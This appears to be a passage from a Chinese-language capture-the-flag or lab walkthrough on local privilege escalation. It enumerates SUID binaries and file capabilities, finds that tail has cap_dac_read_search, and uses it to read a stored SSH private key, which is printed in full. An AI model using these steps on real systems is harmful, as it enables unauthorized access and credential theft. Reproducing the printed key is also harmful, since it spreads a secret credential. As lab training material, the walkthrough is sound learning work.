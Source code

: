 ## 检查提权可能性

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/home/bonita/beroot
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

可以看出 `/usr/bin/tail` 文件具有任意文件读取的能力，尝试利用

```plaintext title="tail -n 100 /var/cache/apt/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
